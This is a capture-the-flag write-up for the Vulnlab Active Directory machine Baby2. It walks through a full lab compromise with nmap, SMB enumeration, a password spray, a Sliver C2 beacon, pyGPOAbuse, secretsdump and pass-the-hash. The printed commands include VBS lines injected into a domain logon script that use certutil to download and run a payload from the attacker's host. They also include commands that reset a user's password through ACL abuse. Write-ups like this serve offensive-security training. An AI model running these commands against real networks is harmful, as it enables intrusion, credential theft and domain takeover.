


| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Baby2        | Medium     | 18/01/2025   | 18/01/2025     |
*Vulnlab.com* 

---

Learning Points:
- Using the Netexec Spider_Plus module to enumerate bulk SMB shares.
- Using [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) to add a user to the Domain Admin group when a controlled user has GenericAll privileges to the GPO `DEFAULT DOMAIN CONTROLLERS POLICY`.
- Using Sharhound-4 in a Sliver session and adding it to BloodHound CE.

---

Attack Path:
- Enumerate SMB shares and find a shortcut script to a VBS file.
- Find users in SMB shares, create a user list, and perform a password spray with the combination `username:username` to find a valid user.
- Enumerate the SMB shares from that user and find the `SYSVOL` share that is readable.
- Access it and find the editable `login.vbs` file.
- Add a malicious VBS script to execute a reverse shell and get a shell as `Amelia.Griffiths`.
- Since `AMELIA.GRIFFITHS` belongs to the legacy group, which has _WriteDacl_ permissions to GPOAD, change the password of the `gpoad` user.
- Use [pyGPOAbuse.py](https://github.com/Hackndo/pyGPOAbuse) to add the `gpoadm` user to the Administrator group by abusing the GenericAll permission for the domain policy to the `gpoad` user.
- Use Impacket's `secretsdump` to dump the hash of the administrator, and Evil-WinRM to pass the hash and log in to the machine, ultimately getting the root flag.

---

*Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 18 15:37:31 2025 as: /usr/lib/nmap/nmap -sC -sV -oA default 10.10.92.249
Nmap scan report for 10.10.92.249
Host is up (0.18s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-18 10:07:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-01-18T09:57:22
|_Not valid after:  2026-01-18T09:57:22
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-01-18T09:57:22
|_Not valid after:  2026-01-18T09:57:22
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-01-18T09:57:22
|_Not valid after:  2026-01-18T09:57:22
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2025-01-18T09:57:22
|_Not valid after:  2026-01-18T09:57:22
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-18T10:08:30+00:00
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2025-01-17T10:06:18
|_Not valid after:  2025-07-19T10:06:18
|_ssl-date: 2025-01-18T10:09:09+00:00; -1s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-18T10:08:33
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 18 15:39:13 2025 -- 1 IP address (1 host up) scanned in 102.05 seconds
```

We used CrackMapExec and found that, as a null session, we could access some shares and also had read/write access to the `homes` share.


We were able to see a shortcut file and a CHANGELOG file in the `apps` share.


```
root@eagle:~/Vulnlab/Machines/Baby2/smb/apps/dev# cat CHANGELOG    
[0.2]

- Added automated drive mapping

[0.1]

- Rolled out initial version of the domain logon script
```

We opened the `login.vbs` shortcut file in a Windows VM and were able to see the target file.


We used the Netexec Spider_Plus module to enumerate bulk SMB shares.

```
netexec smb baby2.vl -u 'null' -p '' -M spider_plus
```



We found the `login.vbs` file in the `NETLOGON` share.



_login.vbs :_
```vb
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
  
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
    
    If isMapped Then
        objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
    End If
    
    objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
    If Err.Number = 0 Then
        WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
    Else
        WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

This didn’t give us anything useful yet, so we enumerated the `homes` share and were able to see some users, but we couldn't find anything in the directories.


Since we didn’t have any passwords and couldn’t brute-force the logins as the accounts might get locked, we used the `username:username` credential combination and used CrackMapExec to perform a password spray attack.


We were able to obtain the `Carl.Moore` user credential from the attack.

```
Carl.Moore:Carl.Moore
```

We listed the available shares for that user and were able to see that the `SYSVOL` share is readable and that we have read/write permissions to the `docs` share.


We were able to see the same `login.vbs` file we found earlier; however, we had read/write access to that folder.


We generated an executable beacon using Sliver and started a listener.

```
generate beacon --os windows --arch amd64 --http 10.8.4.157 --save rev.exe
```


We then added the following lines to the VBS file.

```vb
oShell.run "cmd.exe /c mkdir C:\Temp"
oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.4.157:8888/rev.exe C:\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Temp\rev.exe"
```


We deleted the current VBS file, uploaded the malicious one, and were able to see the web request to Eagle.


We were able to see the beacon activate and establish a connection to our Sliver C2.


We were able to see that we had obtained the shell as `Amelia.Griffiths`.


We were also able to get the user flag in the `C:\` directory.


### Privilege Escalation

We used Sharhound from the Sliver Armory.

```
sharp-hound-4 -i -s -t 120 -- -c all,gpolocalgroup
```


The output didn’t work for the old BloodHound Kali, so we used BloodHound Python again and got the data.


We were able to see that AMMELIA.GRIFFITH belongs to the legacy group which has _WriteDacl_ permissions to GPOAD


We abused the WriteDacl permission to change the password of the user `GPOADM` :

```
add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"
```

```
$cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

```
set-domainuserpassword gpoadm -accountpassword $cred
```

We also used CrackMapExec to confirm that the credentials were changed.


We were able to find another attack path when we checked the shortest path from owned principals in BloodHound.


>The user GPOADM@BABY2.VL has GenericAll privileges to the GPO DEFAULT DOMAIN CONTROLLERS POLICY@BABY2.VL. This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

First, we need to find the `GPO File Path ID` in the policy.


We can use [pygpoabuse.py](https://github.com/Hackndo/pyGPOAbuse) to add the `gpoadm` user to the Administrator group.

```
python3 pygpoabuse.py 'baby2.vl/gpoadm:Password123!' -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 -f -dc-ip 10.10.92.249 -command 'net localgroup administrators /add gpoadm'
```


Using CrackMapExec, we were able to see that the attack worked after a few minutes.


Since we were part of the Domain Admins, we used Impacket's `secretsdump` to dump the hash of the administrator.

```
impacket-secretsdump 'gpoadm'@dc.baby2.vl
```

We were then able to log in as the administrator using a pass-the-hash attack with the hash and obtained the root flag.


---
#### Extra mile :

We installed BloodHound CE using Docker Compose and injected the BloodHound ZIP file we got from Sharhound-4 in Sliver, then were able to see the attack paths.


---
